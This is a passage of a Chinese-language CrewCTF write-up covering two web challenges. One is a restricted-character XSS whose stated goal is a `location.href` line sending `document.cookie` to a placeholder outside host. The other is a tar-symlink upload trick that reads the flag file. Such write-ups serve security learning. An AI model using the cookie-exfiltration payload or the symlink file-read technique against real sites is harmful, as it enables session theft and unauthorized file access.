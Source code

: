 ```js
     } 
} 
console.log(s);
```
```
+-0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdef
```
然而chatgpt的回答😤
![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230717105135.png)
这里的`0-f`是按照`ascii`码大小来排列的，数字和小写字符之间还夹着大写字符和一些符号。

我们的目标是用这些符号，通过`js`获取`cookie`并且将`cookie`带出，如果用`xhr`发请求，要麻烦一些。这里可以用`location.href` 带出`cookie` ，所以现在的目标是实现`location.href = 'http://xx.xx.xx.xx?' + document.cookie`。

> 这里主要学习这篇文章，没有亲手复现学习了一下思路。
> https://nanimokangaeteinai.hateblo.jp/entry/2023/07/10/063030

思路是构造`<IMG SRC=X ONERROR=…><IFRAME ID=X>`，用`IMG`的`ONERROR`执行任意`js`，再结合`Dom cloberring`，利用`iframe`的`contentWindow`获取`location`。

最终可以用`X.parent.location`和`X.contentWindow.document.coookie`来偷`cookie`。而具体利用这些限制的字符去构造的方法应该比较多，相比于`jsfuck`的6个字符要多很多，具体的脚本可以看上面的文章。

`crew{dom_clobbering_is_helpful_for_a_restricted_xss}`

## archive_stat_viewer

> Warning: Never extract archives from untrusted sources without prior inspection. It is possible that files are created outside of path, e.g. members that have absolute filenames starting with "/" or filenames with two dots "..". [https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall](https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall)
>
>I'm aware this warning but didn't know what to do right. Is this okay?
>[http://archive-stat-viewer.chal.crewc.tf:8081/](http://archive-stat-viewer.chal.crewc.tf:8081/)

考察压缩包软链接上传（zip symlink upload）漏洞。

站点可以上传`tar`文件，并且分析文件大小和更新时间，有`clean`,`analyze`,`/results/<archive_id>`三个主要的后端路由。

- /analyze 解压缩tar
- /results/\<uuid\> 返回result.json的内容
- /clean 删除上传的文件目录

过滤了`..`和`/`，需要用上传软链接的方式来完成任意文件读。

这里首先我们能访问的就是`/results/<uuid>`，所以目标肯定是让`result.json`变成一个指向`flag`的软链接。

如果只上传一次，那么是猜不到本次上传的`tar`，解压后的路径，所以需要先随便传一个，之后上传的`tar`中的软链接覆盖之前上传文件中的`result.json`。

但是之后上传的文件和之前上传的文件并不在同一个目录，比如第一次上传的在`/results/<1stuuid>`，第二次为`/results/<2nduuid>`，我第二次上传的软链接，没法直接传到`/results/<1stuuid>/result.json`，也不能直接覆盖`/results/<2nduuid>/result.json`。比如这里传一个从`/aaa/result.json`指向`flag.txt`的，能指过去，但是我们没办法在`web`上访问到这个文件。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230717144758.png)

所以这里是需要间接覆盖的，需要上传两个软链接，一个是从`/aaa`指向这个`/results/<1stuuid>`目录的，一个是从`/aaa/result.json`指向`flag.txt`。
